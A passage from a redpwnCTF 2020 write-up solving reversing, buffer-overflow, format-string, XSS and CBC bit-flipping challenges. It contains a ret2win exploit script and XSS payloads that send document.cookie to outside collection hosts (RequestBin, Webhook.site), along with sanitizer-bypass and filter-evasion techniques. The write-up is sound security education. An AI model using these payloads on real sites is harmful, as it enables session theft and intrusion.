bubbly[0x135b] <+386>: callq  0x1030                    ; symbol stub for: puts
bubbly[0x1360] <+391>: movl   $0x0, %eax
bubbly[0x1365] <+396>: callq  0x11bf                    ; print_flag at main.c:23
bubbly[0x136a] <+401>: jmp    0x1378                    ; <+415> at main.c:56
bubbly[0x136c] <+403>: leaq   0xcf3(%rip), %rdi
bubbly[0x1373] <+410>: callq  0x1030                    ; symbol stub for: puts
bubbly[0x1378] <+415>: movl   $0x0, %eax
bubbly[0x137d] <+420>: leave
bubbly[0x137e] <+421>: retq
```

The disassembly indicated the presence of two other functions (`check` and `print_flag`) and multiple references to `nums`. The `check` function had more references to `nums` but `print_flag` didn't have any.

```bash
(lldb) disas -n check
bubbly`check:
bubbly[0x1165] <+0>:  pushq  %rbp
bubbly[0x1166] <+1>:  movq   %rsp, %rbp
bubbly[0x1169] <+4>:  movb   $0x1, -0x1(%rbp)
bubbly[0x116d] <+8>:  movl   $0x0, -0x8(%rbp)
bubbly[0x1174] <+15>: jmp    0x11b3                    ; <+78> at main.c:11
bubbly[0x1176] <+17>: movl   -0x8(%rbp), %eax
bubbly[0x1179] <+20>: leaq   (,%rax,4), %rdx
bubbly[0x1181] <+28>: leaq   0x2ed8(%rip), %rax        ; nums
bubbly[0x1188] <+35>: movl   (%rdx,%rax), %edx
bubbly[0x118b] <+38>: movl   -0x8(%rbp), %eax
bubbly[0x118e] <+41>: addl   $0x1, %eax
bubbly[0x1191] <+44>: movl   %eax, %eax
bubbly[0x1193] <+46>: leaq   (,%rax,4), %rcx
bubbly[0x119b] <+54>: leaq   0x2ebe(%rip), %rax        ; nums
bubbly[0x11a2] <+61>: movl   (%rcx,%rax), %eax
bubbly[0x11a5] <+64>: cmpl   %eax, %edx
bubbly[0x11a7] <+66>: jbe    0x11af                    ; <+74> at main.c:11
bubbly[0x11a9] <+68>: movb   $0x0, -0x1(%rbp)
bubbly[0x11ad] <+72>: jmp    0x11b9                    ; <+84> at main.c:19
bubbly[0x11af] <+74>: addl   $0x1, -0x8(%rbp)
bubbly[0x11b3] <+78>: cmpl   $0x8, -0x8(%rbp)
bubbly[0x11b7] <+82>: jbe    0x1176                    ; <+17> at main.c:13
bubbly[0x11b9] <+84>: movzbl -0x1(%rbp), %eax
bubbly[0x11bd] <+88>: popq   %rbp
bubbly[0x11be] <+89>: retq

(lldb) disas -n print_flag
bubbly`print_flag:
bubbly[0x11bf] <+0>:  pushq  %rbp
bubbly[0x11c0] <+1>:  movq   %rsp, %rbp
bubbly[0x11c3] <+4>:  subq   $0x10, %rsp
bubbly[0x11c7] <+8>:  leaq   0xe3a(%rip), %rdi
bubbly[0x11ce] <+15>: callq  0x1050                    ; symbol stub for: system
bubbly[0x11d3] <+20>: movl   %eax, -0x4(%rbp)
bubbly[0x11d6] <+23>: nop
bubbly[0x11d7] <+24>: leave
bubbly[0x11d8] <+25>: retq
```

I didn't think `nums` was a function since there wasn't a line number associated with it in the debug symbols. Since it was referenced so often, I figured `nums` was either a variable that held my input numbers or some data structure that was altered by my inputs. From past experience, I knew that `gdb` was capable of displaying the contents of static and local variables using the `print` command, and `lldb` had [similar commands](https://lldb.llvm.org/use/map.html#examining-variables) for displaying variable values. I wasn't able to view local variables since the program wouldn't run on my machine (therefore I couldn't step through frames), but if `nums` existed as a global/static variable, I would be able to see its contents. Sure enough, `nums` existed as a static variable!

```bash
(lldb) target variable nums
(uint32_t [10]) nums = ([0] = 1, [1] = 10, [2] = 3, [3] = 2, [4] = 5, [5] = 9, [6] = 8, [7] = 7, [8] = 4, [9] = 6)
```

I couldn't discern a pattern in the array `[1, 10, 3, 2, 5, 9, 8, 7, 4, 6]`. The only outstanding thing was that the numbers were out of order, so if the complaints were about sorting `nums`, my inputs likely influenced the ordering of these numbers. I was a bit skeptical about this idea since the program only accepted inputs in the range $$[0, 8]$$ (including decimals), but `nums` held numbers in a larger range $$[1, 10]$$ with array indices in $$[0, 9]$$. 

Still, the bubble sort link between the sorting complaint and the challenge title lingered in my mind. Bubble sort involves numerous pairwise swaps of items in multiple passes over an array&mdash;it's annoying to perform manually. I noticed that all the [Wikipedia implementations](https://en.wikipedia.org/wiki/Bubble_sort#Implementation) iterated over the range $$i \in [1, n-1]$$, pairwise swapping whenever the $$i^{th}$$ value was smaller than the $$(i-1)^{th}$$ value. This process was the same as iterating over the range $$i \in [0, n-2]$$ and swapping whenever the $$i^{th}$$ value was larger than the $$(i+1)^{th}$$ value. In my case, the range $$[0, n-2]$$ was equivalent to $$[0, 8]$$, which was the same range of numbers that the challenge accepted as input without exiting. 

This connection seemed promising and led me to believe that I needed to submit index ($$i \in [0, n-2]$$) values where the bubble sort swaps needed to occur. For example, submitting `2` would indicate a swap of the elements at positions $$i=2$$ and $$i+1 = 3$$. I figured that submitting inputs that led to a sorted `nums` would print the flag:  

| Input | Array |
|:-:|:-------------------------------:|
|   |`[1, 10, 3, 2, 5, 9, 8, 7, 4, 6]`|
| 1 |`[1, 3, 10, 2, 5, 9, 8, 7, 4, 6]`|
| 2 |`[1, 3, 2, 10, 5, 9, 8, 7, 4, 6]`|
| 1 |`[1, 2, 3, 10, 5, 9, 8, 7, 4, 6]`|
| 3 |`[1, 2, 3, 5, 10, 9, 8, 7, 4, 6]`|
| 7 |`[1, 2, 3, 5, 10, 9, 8, 4, 7, 6]`|
| 6 |`[1, 2, 3, 5, 10, 9, 4, 8, 7, 6]`|
| 5 |`[1, 2, 3, 5, 10, 4, 9, 8, 7, 6]`|
| 4 |`[1, 2, 3, 5, 4, 10, 9, 8, 7, 6]`|
| 3 |`[1, 2, 3, 4, 5, 10, 9, 8, 7, 6]`|
| 8 |`[1, 2, 3, 4, 5, 10, 9, 8, 6, 7]`|
| 7 |`[1, 2, 3, 4, 5, 10, 9, 6, 8, 7]`|
| 6 |`[1, 2, 3, 4, 5, 10, 6, 9, 8, 7]`|
| 5 |`[1, 2, 3, 4, 5, 6, 10, 9, 8, 7]`|
| 8 |`[1, 2, 3, 4, 5, 6, 10, 9, 7, 8]`|
| 7 |`[1, 2, 3, 4, 5, 6, 10, 7, 9, 8]`|
| 6 |`[1, 2, 3, 4, 5, 6, 7, 10, 9, 8]`|
| 8 |`[1, 2, 3, 4, 5, 6, 7, 10, 8, 9]`|
| 7 |`[1, 2, 3, 4, 5, 6, 7, 8, 10, 9]`|
| 8 |`[1, 2, 3, 4, 5, 6, 7, 8, 9, 10]`|

I submitted my sequence of index values, but the challenge still prompted me for input. I nudged the program by giving it an unwelcome value in hopes that it would trigger the `check` and `print_flag` functions, which worked!

```
$ nc 2020.redpwnc.tf 31039
I hate my data structures class! Why can't I just sort by hand?
> 1
> 2
> 1
> 3
> 7
> 6
> 5
> 4
> 3
> 8
> 7
> 6
> 5
> 8
> 7
> 6
> 8
> 7
> 8
> 
> 11
Well done!
flag{4ft3r_y0u_put_u54c0_0n_y0ur_c011ege_4pp5_y0u_5t1ll_h4ve_t0_d0_th15_57uff}
```

### `pwn/`coffer-overflow-2

> You'll have to jump to a function now!?  
> `nc 2020.redpwnc.tf 31908`  
> [<span class="file-link">coffer-overflow-2</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-2/bin/coffer-overflow-2) [<span class="file-link">coffer-overflow-2.c</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-2/bin/coffer-overflow-2.c)

After my experience with the previous two coffer-overflow challenges, I went straight to the source code for this one. The `coffer-overflow-2.c` source code was also similar to the two prior ones, except the `code` variable was removed. Again ignoring the `setbuf` and `puts` functions since they'd be unaffected by my input, it looked like:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  // ...truncated...

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

The challenge prompt indicated that I needed to jump to the `binFunction` to gain shell access. I could achieve this by overwriting the return address in `main`'s stack frame with the address of `binFunction`. This would make it so that after the `gets` call, the `main` function would jump to the `binFunction` instead of exiting the program. A [Wikipedia article](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Exploiting_stack_buffer_overflows) about stack buffer overflows illustrates this attack well.

Since the only local variable was `name` (a buffer that took up 16 bytes), my total allocated stack space was likely only 16 bytes. According to the stack layout diagram in the article, if I were to carry out a buffer overflow attack and write past `name`'s 16 bytes, I would first overwrite the saved frame pointer, then overwrite the return address with the address of `binFunction`.

To find the address of `binFunction`, I needed to disassemble `coffer-overflow-2`, which I did using `objdump` since `lldb` was no longer cooperating:

```
$ objdump --disassemble coffer-overflow-2

coffer-overflow-2:  file format ELF64-x86-64

# ...truncated...

main:
  400677:   55  pushq   %rbp
  400678:   48 89 e5    movq    %rsp, %rbp
  40067b:   48 83 ec 10     subq    $16, %rsp
  40067f:   48 8b 05 da 09 20 00    movq    2099674(%rip), %rax
  400686:   be 00 00 00 00  movl    $0, %esi
  40068b:   48 89 c7    movq    %rax, %rdi
  40068e:   e8 cd fe ff ff  callq   -307 <.plt+20>
  400693:   48 8b 05 d6 09 20 00    movq    2099670(%rip), %rax
  40069a:   be 00 00 00 00  movl    $0, %esi
  40069f:   48 89 c7    movq    %rax, %rdi
  4006a2:   e8 b9 fe ff ff  callq   -327 <.plt+20>
  4006a7:   48 8b 05 d2 09 20 00    movq    2099666(%rip), %rax
  4006ae:   be 00 00 00 00  movl    $0, %esi
  4006b3:   48 89 c7    movq    %rax, %rdi
  4006b6:   e8 a5 fe ff ff  callq   -347 <.plt+20>
  4006bb:   48 8d 3d c6 00 00 00    leaq    198(%rip), %rdi
  4006c2:   e8 89 fe ff ff  callq   -375 <.plt+10>
  4006c7:   48 8d 3d 0a 01 00 00    leaq    266(%rip), %rdi
  4006ce:   e8 7d fe ff ff  callq   -387 <.plt+10>
  4006d3:   48 8d 45 f0     leaq    -16(%rbp), %rax
  4006d7:   48 89 c7    movq    %rax, %rdi
  4006da:   e8 a1 fe ff ff  callq   -351 <.plt+40>
  4006df:   b8 00 00 00 00  movl    $0, %eax
  4006e4:   c9  leave
  4006e5:   c3  retq

binFunction:
  4006e6:   55  pushq   %rbp
  4006e7:   48 89 e5    movq    %rsp, %rbp
  4006ea:   48 8d 3d 12 01 00 00    leaq    274(%rip), %rdi
  4006f1:   b8 00 00 00 00  movl    $0, %eax
  4006f6:   e8 75 fe ff ff  callq   -395 <.plt+30>
  4006fb:   90  nop
  4006fc:   5d  popq    %rbp
  4006fd:   c3  retq
  4006fe:   66 90   nop
```

The program used an x86-64 system, meaning memory addresses were 8 bytes long. The `objdump` showed that `binFunction` started at the memory address `0x4006e6`, which could be written `0x00000000004006e6` for the full 8-byte memory address.

For this exploit, I intended to submit 16 bytes (to fill the `name` buffer) + 8 bytes (to overwrite the saved frame pointer address) + 8 bytes to overwrite the return address with `0x00000000004006e6` = 32 bytes of input. Again, the addresses needed to be written in reverse order because of endianness and I needed to programmatically connect to the challenge to send raw bytes:

```python
import nclib

nc = nclib.Netcat(('2020.redpwnc.tf', 31908))
print(nc.recv_line())
print(nc.recv_line())

payload = bytes("A"*24, 'utf8') + b'\xe6\x06\x40\x00\x00\x00\x00\x00'
nc.send_line(payload)
command = b"cat flag.txt"
nc.send_line(command)
print(nc.recv_line())

>>> b'flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}\n'
```

### `pwn/`secret-flag

> There's a super secret flag in printf that allows you to LEAK the data at an address??  
> `nc 2020.redpwnc.tf 31826`  
> [<span class="file-link">secret-flag</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/secret-flag/bin/secret-flag)

I connected to the challenge, which prompted me to enter a name, then printed "Hello there: " followed by the name I supplied. I tried several inputs to poke the program but they were all handled fine.

```
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> asdf123
Hello there: asdf123

$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> cat flag.txt
Hello there: cat flag.txt

$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> ¿
Hello there: ¿
```

It seemed like the program was reading in the input I provided as a string then printing it in the following line. The challenge prompt suggested that `printf` had a vulnerability that let you leak data at a memory address, so I searched for "printf leak data" and found several articles identifying the exploit as a "format string attack." I read [this article](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be) which explained how one could leak stack data by providing `%x`s to `printf` and leak strings from the heap by providing `%s`s to `printf`. Sure enough, I was able to use these inputs to leak stack values and some random memory address's value interpreted as a string:

```
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> %x %x %s
Hello there: 5cb10c0 ab952780 H=���s1�H����
```

I assumed the flag was likely stored on the heap to be readable as a string, so I opted to stick with the `%s` inputs over the `%x` ones. The aforementioned article also explained that one could access the i<sup>th</sup> argument in memory by using a special case format specifier; `%10$s` would print the eleventh (`i = 10`) value in memory as a string. The 0<sup>th</sup> string value in memory would be my input, so the flag would be located at an `i > 0` location in memory. Using the format specifier, I traversed the memory values individually and found the flag in the `i = 7` string value.

```
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> %1$s
Hello there: Hello there:

$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> %2$s
Hello there:

$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> %3$s
Hello there: H=���s1�H����

...

$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
> %7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

### `web/`static-pastebin

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)  
> Site: [static-pastebin.2020.redpwnc.tf](https://static-pastebin.2020.redpwnc.tf/)  
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

Usually when a CTF challenge provides an admin viewer link or site to report issues, the challenge's exploit is related to [cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting). One can provide a URL to the admin viewer bot, and it will visit the URL with admin credentials. Sometimes the credentials and flag are stored in the bot's cookies, making the goal of the challenge to perform a XSS attack to obtain the flag or cookie value. I believed that was the case for this challenge.

I started off by observing the behavior of the website, which presented me with a large text input box:

<center><img src="/img/redpwn/pastebin1.png" width="70%" title="static-pastebin homepage"></center>

I submitted `asdf` and was directed to a plain HTML page with only "asdf" written in its body. I noticed that the [paste URL](https://static-pastebin.2020.redpwnc.tf/paste/#YXNkZg==)'s suffix looked like a base64 string. Decoding `YXNkZg==` from a base64 format gave me `asdf`, so I figured that the URL suffix of a paste was the base64 encoding of the input submitted to create that paste page. This made sense since the website was intended to host static pages/pastes.

<center><img src="/img/redpwn/pastebin2.png" width="70%" title="Plain asdf"></center>

Next, I entered `<b>bold asdf</b>` and `<script>alert(document.cookie);</script>` to see if I could add any HTML formatting or run malicious JavaScript, but my inputs' tags were sanitized and removed before the site displayed my text. Again, the suffix still decoded to the raw input; `PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==` decoded to `<script>alert(document.cookie);</script>`.

<center><img src="/img/redpwn/pastebin3.png" width="70%" title="Attempt to show <b>bold asdf</b>"></center>

Looking through the page's source code, I found a [script](https://static-pastebin.2020.redpwnc.tf/paste/script.js) that was run whenever a paste was loaded. The script took the URL's base64-encoded suffix, decoded it, `clean`ed it, then inserted the cleaned text in the `paste` element of the HTML page's body. I was particularly interested in exploiting the `clean` function to keep the tags from being sanitized.

```js
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

In `clean`, the `brackets` counter was incremented whenever a `<` (open bracket) was seen and decremented whenever a `>` (closed bracket) was seen. I noticed that substrings of input were added to the output whenever `brackets` was 0, which occurred when all tags were thought to be closed. I had an idea to "pre-decrement" the `brackets` counter by adding a `>` before my first `<` so that `brackets` would dip to -1 then back to 0, allowing me to insert an open bracket to `result`.

After some tinkering, I found success by submitting `><b> < bold asdf ></b> < plain asdf`, which allowed me to bypass `clean` and use HTML bold tags!

<center><img src="/img/redpwn/pastebin4.png" width="70%" title="HTML bold tags to bypass sanitization"></center>

With tags working, I wanted a way to craft my XSS attack such that when the admin viewer bot visited my malicious paste, some code in my paste would "steal" its cookies and send them to a different server for me to view at. I had previously read about online tools like [RequestBin](http://requestbin.net/) and [Webhook.site](https://webhook.site/#!/) which accept HTTP requests. These tools would allow me to view requests' parameters and contents, so they could serve as the "different server" for me. I also read [OWASP's article](https://owasp.org/www-community/attacks/xss/) about cross-site scripting and [a repo](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md#inject-the-xss-attack-code) about stealing cookies via XSS. The examples with `<img>` tags coupled with `onerror` JavaScript stood out to me:

```html
<!-- Shows a popup box displaying the user's cookies -->
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

<!-- Calls onerror() in a loop, repeatedly sending cookies to the specified web address -->
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

I created a private RequestBin then crafted my payload as

```html
><img src=x onerror=this.src='http://requestbin.net/r/1p475ql1/?c='+document.cookie;>
```

and submitted it to create [this paste](https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj10aGlzLnNyYz0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMXA0NzVxbDEvP2M9Jytkb2N1bWVudC5jb29raWU7Pg==). This made it so that whenever the paste was visited, it would repeatedly make GET requests to my private RequestBin with the viewer's cookies appended onto each request as a query parameter `c`. Since I had access to the private RequestBin, I could view each incoming request's attributes and query parameter values.

Shortly after submitting my [paste's URL](https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj10aGlzLnNyYz0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMXA0NzVxbDEvP2M9Jytkb2N1bWVudC5jb29raWU7Pg==) to the admin viewer bot, I saw my RequestBin's dashboard populating with requests. In the "Querystring" section of each request, I found `flag=flag{54n1t1z4t10n_k1nd4_h4rd}`.

### `web/`static-static-hosting

> Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting)  
> Site: [static-static-hosting.2020.redpwnc.tf](https://static-static-hosting.2020.redpwnc.tf/)  
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

Similar to [`web/`static-static-hosting](#webstatic-pastebin), this challenge also had an admin viewer bot and a landing page with a large text input box for me to write a static HTML site.

<center><img src="/img/redpwn/statichosting1.png" width="70%" title="static-static-hosting homepage"></center>

This time however, some HTML tags were allowed and not sanitized; `<b>bold asdf</b>` worked but `<script>alert(1);</script>` and `<img src=x onerror=this.src='http://requestbin.net/r/1p475ql1/?c='+document.cookie;>` did not work. Again, the URL suffix was base64-encoded and decoded to the raw input; a static site's suffix was `PGI+Ym9sZCBhc2RmPC9iPg==`, which still decoded to `<b>bold asdf</b>`.

<center><img src="/img/redpwn/statichosting2.png" width="70%" title="<b>bold asdf</b> worked"></center>

After digging through the page source code again, I found an updated `clean` function:

```js
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

The script ran whenever a static site was loaded and recursively removed elements that contained scripts or script tags (`nodeName == 'SCRIPT'`), and also removed element attributes that weren't one of `['src', 'width', 'height', 'alt', 'class']`. My previous payload (`<img src=x onerror=this.src='http://requestbin.net/r/1p475ql1/?c='+document.cookie;>`) wasn't working since the `onerror` element attribute was always removed by the `sanitize` function before my static site loaded.

Next, I went back to the [OWASP article](https://owasp.org/www-community/attacks/xss/) about XSS attacks and followed a link to an [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) that specified numerous ways to bypass XSS filters. One of the simplest payloads was `<img src=javascript:alert('XSS')>`, but it didn't work when I tried it on the static-static-hosting website.

<center><img src="/img/redpwn/statichosting3.png" width="70%" title="<img> payload didn't work"></center>

I submitted several of the `<img>` tag payloads demonstrated in the cheatsheet but didn't have any success running malicious JavaScript. After trying out some more payloads from the cheatsheet, I got to the `<iframe>` tag section and managed to display an alert box using `<iframe src=javascript:alert('XSS')></iframe>`!

<center><img src="/img/redpwn/statichosting4.png" width="70%" title="<iframe> payload worked!"></center>

At the time, I was having issues connecting to [RequestBin](http://requestbin.net/), so I switched to [Webhook.site](https://webhook.site/) and created a new URL there. Since I was using an `<iframe>` tag for this challenge, I couldn't use the exact same solution of changing the element's source (`this.src`) from the previous challenge. To access cookies, I instead needed the overarching window or browser to point to my Webhook.site URL, which I could do by setting the `document.location` in JavaScript.

My final payload looked like:

```html
<iframe src=javascript:document.location='https://webhook.site/04b971d3-6153-4fce-a7aa-6bd224bd2989/?c='+document.cookie;></iframe>
```

This would make it so that when the admin bot visited my static page, its cookies would be sent to my Webhook.site as a query parameter `c`. I entered my payload to create [this static site](https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9amF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMDRiOTcxZDMtNjE1My00ZmNlLWE3YWEtNmJkMjI0YmQyOTg5Lz9jPScrZG9jdW1lbnQuY29va2llOz48L2lmcmFtZT4=), which I submitted to the admin viewer bot. After a few seconds, I saw a request come in to my Webhook.site and its "Query strings" section contained `flag=flag{wh0_n33d5_d0mpur1fy}`.

### `web/`panda-facts-v2\*

\*I spent a great deal of time working on this challenge and had the correct approach, but failed to fully solve it within the time limit. It wasn't until 30 minutes after the CTF ended that I achieved a working implementation.

> Uh oh; it looks like they already migrated to a more secure platform. Can you do your thing again? These horrible people must be stopped!  
> Site: [panda-facts-v2.2020.redpwnc.tf](https://panda-facts-v2.2020.redpwnc.tf/)  
> [<span class="file-link">index.js</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/web/panda-facts-v2/index.js)

This website looked identical to the one in [`web/`panda-facts](#webpanda-facts). It had the same simple login form, the same "facts" about pandas, the same "member-only fact" button that checked for my `member` status, and the same kind of base64-encoded `token` cookie (still deterministic per username).

The only differences I found in the `index.js` source code from the previous iteration were in `generateToken` and the `INTEGRITY` constant. Specifically in `generateToken`, the previous iteration's vulnerability was fixed; I could no longer close the `username` value and add my own key-value pairing since the entire `token` object would be stringified.

```js
const INTEGRITY = 'd2068b64517a277e481166b9b488f593';

// ...truncated...

async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = {
        integrity: INTEGRITY,
        member: 0,
        username: username
    };

    let encrypted = '';
    encrypted += cipher.update(JSON.stringify(token), 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}
```

I couldn't come up with a way to bypass the entire `token` object being stringified, so I believed that the exploit was related to the encryption algorithm. After much deliberation, I decided to revisit the rabbit hole I went down in the first panda-facts. This challenge also used the AES-192-CBC algorithm; two popular attacks for CBC mode are the [padding oracle attack](https://en.wikipedia.org/wiki/Padding_oracle_attack) and the [bit flipping attack](https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode). The server didn't give me access to an encryption oracle, so I looked towards the bit flipping attack as my best option.

The [Wikipedia article](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC)) on CBC mode has some good visualizations explaining the algorithm:

<center><img src="https://upload.wikimedia.org/wikipedia/commons/d/d3/Cbc_encryption.png" width="70%" title="CBC encryption"></center>

<center><img src="https://upload.wikimedia.org/wikipedia/commons/6/66/Cbc_decryption.png" width="70%" title="CBC encryption"></center>

For the mathematically inclined, CBC encryption and decryption can be defined as:

$$
C_0 = IV, \\
C_i = E_k(P_i \oplus C_{i-1}), \\
P_i = D_k(C_i) \oplus C_{i-1}
$$

where $$1 \leq i \leq \text{# of blocks}$$, $$C_i$$ is the $$i^{th}$$ ciphertext, $$P_i$$ refers to the $$i^{th}$$ plaintext, $$E_k$$ and $$D_k$$ are the encryption and decryption functions that use key $$k$$, and $$IV$$ is the initialization vector.

The Wikipedia article on CBC explains the main concept behind bit flipping attacks:

> Note that a one-bit change to the ciphertext causes complete corruption of the corresponding block of plaintext, and inverts the corresponding bit in the following block of plaintext, but the rest of the blocks remain intact.

For the sake of example, suppose we had a silly encryption function $$E_k$$ that reverses bitstrings and a decryption function $$D_k$$ that does the same. For instance, $$E_k(0011) = 1100$$ and $$D_k(1100) = 0011$$. If we're given plaintexts $$P_1 = 1111, P_2 = 1010, P_3 = 0110$$ and $$IV = 0000$$, we could compute our ciphertexts as:

$$
C_1 = E_k(P_1 \oplus C_0) = E_k(1111 \oplus 0000) = E_k(1111) = 1111 \\
C_2 = E_k(P_2 \oplus C_1) = E_k(1010 \oplus 1111) = E_k(0101) = 1010 \\
C_3 = E_k(P_3 \oplus C_2) = E_k(0110 \oplus 1010) = E_k(1100) = 0011
$$

With correct ciphertext blocks, decryption should yield the same given plaintexts:

$$
P_1 = D_k(C_1) \oplus C_0 = D_k(1111) \oplus 0000 = 1111 \oplus 0000 = 1111 \\
P_2 = D_k(C_2) \oplus C_1 = D_k(1010) \oplus 1111 = 0101 \oplus 1111 = 1010 \\
P_3 = D_k(C_3) \oplus C_2 = D_k(0011) \oplus 1010 = 1100 \oplus 1010 = 0110
$$

Suppose an attacker has access to a [decryption oracle](https://crypto.stackexchange.com/questions/22666/definition-of-the-decryption-oracle#:~:text=The%20decryption%20oracle%20doesn't,part%20of%20the%20security%20definition.) and knows that the first bit of $$P_3$$ grants access to private data, similar to how I knew a non-zero `member` value would grant me access to the flag and the website decrypted any user-provided `token` when the "member-only fact" button was clicked. Also suppose an attacker obtains the ciphertext blocks but has no knowledge about $$E_k$$ and $$D_k$$, similar to how I had a generated `token` but no information about the secret encryption and decryption key. The attacker can modify the ciphertexts as altered versions $$C_i^{'}$$ and get resulting modified plaintexts as $$P_i^{'}$$ after decryption.

If the attacker desires an altered $$P_3$$ (let's call the altered version $$P_3^{'}$$), they could flip the first bit of $$C_2$$ to get a modified ciphertext $$C_2^{'} = 0010$$. This would make it so that:

$$
C_1^{'} = 1111, C_2^{'} = 0010, C_3^{'} = 0011 \\
\\
P_1^{'} = D_k(C_1^{'}) \oplus C_0^{'} = 1111 \oplus 0000 = 1111 \\
P_2^{'} = D_k(C_2^{'}) \oplus C_1^{'} = 0100 \oplus 1111 = 1011 \\
P_3^{'} = D_k(C_3^{'}) \oplus C_2^{'} = 1100 \oplus 0010 = 1110 \\
$$

By flipping the first bit of $$C_2$$ to create $$C_2^{'}$$, the attacker manages to flip the desired first bit in $$P_3^{'}$$ as well. In the process however, the second plaintext $$P_2^{'}$$ gets corrupted and is no longer equivalent to the original $$P_2$$. This is a result of $$C_2^{'}$$'s incompatibility with the decryption function $$D_k$$, which affects the corresponding plaintext as per the CBC decryption formula. The first plaintexts ($$P_1, P_1^{'}$$) remain equivalent and the third plaintexts are equivalent aside from the desired bit flip. This attack would be considered successful if the attacker's goal was to modify the leading bit of $$P_3$$ and the corrupted $$P_2^{'}$$ was inconsequential to them.

This [StackExchange answer](https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode/66086#66086) also has a good visualization and explanation of the attack:

<center><img src="https://i.stack.imgur.com/bOu8Q.png" width="70%" title="CBC bit flipping attack"></center>

Similar to the first iteration, when I logged in as `asdf`, the JSON string would be split into five plaintext blocks. The five plaintext blocks were encrypted to produce five ciphertext blocks. Again, note that $$C_5$$ was padded to 16 bytes, even though $$P_5$$ was less than 16 bytes long. Concatenating then base64-encoding the ciphertexts produced the `token` value.

```python
# Plaintext blocks
{"integrity":"d2
068b64517a277e48
1166b9b488f593",
"member":0,"user
name":"asdf"}

# Ciphertext blocks
'7d9a92b3540bf5e173c6742a93f7ccdf'
'576a8494d3ae479cafc6cec7d037848a'
'0a3df0a02ab9e26df7a06d6962707c8c'
'dbcf2680d9a11c7d993daf3a88a11234'
'f60d0841ac294b2656f37bca1bca98b5'

# base64 encoding
"fZqSs1QL9eFzxnQqk/fM31dqhJTTrkecr8bOx9A3hIoKPfCgKrnibfegbWlicHyM288mgNmhHH2ZPa86iKESNPYNCEGsKUsmVvN7yhvKmLU="
```

My first idea was to flip the `member` bit from a 0 into a 1, which would require me to alter the third ciphertext block. I dismissed this thought because modifying the third ciphertext block would corrupt the third plaintext, meaning the decoded `integrity` value would become garbled and cause `decodeToken` to fail during the integrity check. Any bit flipping in my solution needed to occur after the third block.

